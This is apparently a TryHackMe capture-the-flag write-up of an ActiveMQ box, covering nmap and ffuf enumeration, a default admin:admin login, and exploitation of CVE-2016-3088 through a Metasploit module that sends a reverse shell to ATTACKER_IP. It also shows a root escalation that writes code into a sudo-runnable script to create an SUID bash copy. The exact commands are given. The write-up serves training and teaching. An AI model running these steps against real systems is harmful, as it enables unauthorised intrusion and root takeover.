





This box is rated medium difficulty on THM. It involves us using default credentials to log into an ActiveMQ instance as Admin. That discloses the version which is prone to a file upload vulnerability allowing us to get a reverse shell on the system as the web server. Using Sudo permissions to run a script that we have write access to opens the door to execute Python code as root user and spawn an elevated shell.

_Paul and Max use a rather unconventional way to chat. They do not seem to know that eavesdropping is possible though..._

## Scanning & Enumeration
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns

```
$ sudo nmap -p22,1883,8161,35331 -sCV 10.67.134.247 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-07 21:41 CST
Nmap scan report for 10.67.134.247
Host is up (0.042s latency).

Bug in mqtt-subscribe: no string output.
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7b:ed:98:63:74:32:82:97:11:fe:ad:32:40:14:4f:6e (RSA)
|   256 92:e6:3c:02:9e:ed:51:1d:93:d9:e4:ba:b6:97:ce:09 (ECDSA)
|_  256 fb:34:73:b9:78:de:d4:7a:c6:4e:59:a6:85:80:f8:fd (ED25519)
1883/tcp  open  mqtt?
8161/tcp  open  http       Jetty 7.6.9.v20130131
|_http-title: Apache ActiveMQ
|_http-server-header: Jetty(7.6.9.v20130131)
35331/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 76.57 seconds
```

There are four ports open:
- SSH on port 22
- Message Queuing Telemetry Transport (MQTT) on port 1883
- An Apache ActiveMQ web server on port 8161
- Mystery service on port 35331

Not a whole lot we can do on the version of OpenSSH without credentials, so I fire up Ffuf to search for subdirectories and Vhosts in the background before heading over to the webpage. This box already looks web heavy, meaning that enumeration will be key in finding routes to get a foothold.

```
$ ffuf -u http://10.67.134.247:8161/FUZZ -w /opt/SecLists/directory-list-2.3-medium.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.67.134.247:8161/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 84ms]
admin                   [Status: 401, Size: 1278, Words: 977, Lines: 33, Duration: 48ms]
api                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 42ms]
styles                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 44ms]

:: Progress: [220560/220560] :: Job [1/1] :: 851 req/sec :: Duration: [0:04:04] :: Errors: 0 ::
```

## Foothold via File Upload Vuln
Checking out the landing page shows the standard page for newly installed Apache ActiveMQ instances. Some research reveals that it's a popular, open-source, Java-based multi-protocol message broker that enables asynchronous communication between distributed applications.



### Default Credentials
The default credentials for administrator login is `admin:admin`, which works to sign into the dashboard. This discloses the version running and opens up a few doors for us. Running the info gathered against Searchsploit shows that versions prior to 5.14.0 are vulnerable to an arbitrary file upload that allows us to get a reverse shell.



### ActiveMQ File Upload
The vulnerability being exploited here is [CVE-2016–3088](https://nvd.nist.gov/vuln/detail/cve-2016-3088), which explains that certain implementations of Apache's ActiveMQ service allows remote attackers to upload and execute arbitrary files via an HTTP PUT followed by an HTTP MOVE request. [This article](https://medium.com/@knownsec404team/analysis-of-apache-activemq-remote-code-execution-vulnerability-cve-2016-3088-575f80924f30) gives an in-depth analysis on the vulnerability and how to go about exploiting it.

We could do this manually via cURL or in Burp Suite, however Metasploit has a module that automates this process, so I'll use that to get a basic shell on the box as the ActiveMQ user.

```
msfconsole
msf> use exploit/multi/http/apache_activemq_upload_jsp
msf> set RHOSTS [MACHINE_IP]
msf> set RPORT 8161
msf> set LHOST [ATTACKER_IP]
msf> set LPORT [PORT]
msf> run
```

## Privilege Escalation
Now that we're on the box, we can start internal enumeration in order to pivot between users and escalate privileges. At this point we can display both the chat.py and flag.txt files to answer the provided questions. Listing the `/home` directory shows no real users on the system other than root, so I'll zero in on files owned by them or if our account has the capability to execute things as them.

### Abusing Sudo Permissions
There are no SUID bits set on any interesting binaries or hardcoded credentials in config files, however our current user has the ability to run a Python script as root user without a password. Checking that file also shows that we have write permissions over it.



This means that we can just append a code to the `subscribe.py` script and run it with Sudo to catch a reverse shell or execute commands as root. In my case, I make a clone of the Bash binary and give it the SUID bit, so that we can spawn an elevated shell whenever we'd like.

```
#Echoing malicious Python code into vulnerable script
$ echo 'import subprocess; subprocess.run("cp /bin/bash /tmp/bash; chmod +s /tmp/bash", shell=True)' > /opt/apache-activemq-5.9.0/subscribe.py

#Running malicious script as root via Sudo
$ sudo sudo /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
```



Listing the `/tmp` directory shows our Bash clone with an SUID owned by root user which we can use to spawn a shell. Grabbing the final flag under the `/root` directory completes this challenge.



That's all y'all, this box was a pretty short one and I feel we skipped a few steps with the Metasploit module, but that serves as a reason to keep systems updated. I hope this was helpful to anyone following along or stuck and happy hacking!
